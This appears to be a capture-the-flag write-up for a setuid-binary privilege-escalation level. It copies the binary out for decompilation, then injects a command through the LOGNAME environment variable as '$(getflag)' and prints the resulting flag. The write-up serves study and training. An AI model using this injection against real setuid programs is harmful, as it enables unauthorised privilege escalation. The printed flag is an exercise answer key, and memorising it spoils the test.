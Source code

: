# Flag07

```bash
ll
dr-x------ 1 level07 level07  120 Mar  5  2016 ./
d--x--x--x 1 root    users    340 Aug 30  2015 ../
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout*
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc*
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07*
-r-x------ 1 level07 level07  675 Apr  3 
```

We scp ```level7``` into our local to put him into ```dogbolt```

```bash
scp -P 4241 level07@localhost:/home/user/level07/level07 level07
```

We can see that the bin exec ```echo $LOGNAME```

```bash
export LOGNAME="\$(getflag)"
```

```bash
./level07
```

that yield us: ```fiumuikeil55xe9cu4dood66h```
